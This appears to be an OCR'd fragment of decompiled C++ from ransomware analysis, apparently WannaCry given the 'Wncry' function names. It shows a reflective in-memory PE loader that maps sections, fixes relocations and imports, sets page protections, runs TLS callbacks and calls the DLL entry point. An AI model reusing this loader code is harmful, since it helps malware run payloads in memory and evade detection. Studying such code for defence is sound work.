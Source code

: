 ```C++
    lpPEFile = VirtualAlloc(0, dwSize, MEM_RESERVE|MEM_COMMIT, PAGE_READWRITE, zero);
    if ( !lpPEFile )
    {
LABEL_24:
      SetLastError(ERROR_OUTOFMEMORY);
      return 0;
    }
  }
  hHeap = GetProcessHeap();
  TmpVar = HeapAlloc(hHeap, 8u, 0x3Cu);
  pPeBuilder = TmpVar;
  if ( !TmpVar )
  {
    VirtualFree(lpPEFile, 0, MEM_RELEASE, zero);
    goto LABEL_24;
  }
  TmpVar->ImageBase = lpPEFile;
  LOWORD(TmpVar) = pPEHead->FileHeader.Characteristics;
  pPeBuilder->bitResult = (TmpVar >> 13) & 1;
  pPeBuilder->fpVirtualAlloc = VirtualAlloc;
  pPeBuilder->fpVirtualFree = VirtualFree;
  pPeBuilder->fpLoadLibraryA = LoadLibraryA;
  pPeBuilder->fpGetProcAddress = GetProcAddress;
  pPeBuilder->fpFreeLibrary = FreeLibrary;
  pPeBuilder->Placeholder = zero;
  pPeBuilder->dwPageSize = lpSystemInfo.dwPageSize;// The page size and the granularity of page protection and commitment. This is the page size used by the VirtualAlloc function.
  if ( !WncryCheckFileSize(nFileSize, pPEHead->OptionalHeader.SizeOfHeaders)
    || (zeroa = VirtualAlloc(lpPEFile, pPEHead->OptionalHeader.SizeOfHeaders, MEM_COMMIT, PAGE_READWRITE, zero),
        memcpy(zeroa, fileBuffer, pPEHead->OptionalHeader.SizeOfHeaders),
        PEHeader = (zeroa + *&fileBuffer->reserved2[4]),
        pPeBuilder->PEHeader = PEHeader,
        PEHeader->OptionalHeader.ImageBase = lpPEFile,
        !WncryBuildPESection(fileBuffer, nFileSize, pPEHead, pPeBuilder))
    || (pPeBuilder->PEHeader->OptionalHeader.ImageBase == pPEHead->OptionalHeader.ImageBase ? (pPeBuilder->bRelocation = 1) : (pPeBuilder->bRelocation = WncryBaseRelocation(pPeBuilder, pPeBuilder->PEHeader->OptionalHeader.ImageBase - pPEHead->OptionalHeader.ImageBase)),
        !WncryFixImportTable(pPeBuilder) || !WncrySetPageProtect(pPeBuilder) || !WncryPerformTlsCallback(pPeBuilder)) )
  {
LABEL_37:
    WncryReleasePE(pPeBuilder);
    return 0;
  }
  lpEntryPoint = pPeBuilder->PEHeader->OptionalHeader.AddressOfEntryPoint;
  if ( lpEntryPoint )
  {
    if ( pPeBuilder->bitResult )
    {
      if ( !((lpPEFile + lpEntryPoint))(lpPEFile, 1, 0) )
      {
        SetLastError(ERROR_DLL_INIT_FAILED);
        goto LABEL_37;
      }
      pPeBuilder->bEP = 1;
    }
    else
    {
      pPeBuilder->lpEntryPoint = (lpPEFile + lpEntryPoint);
    }
  }
  else
```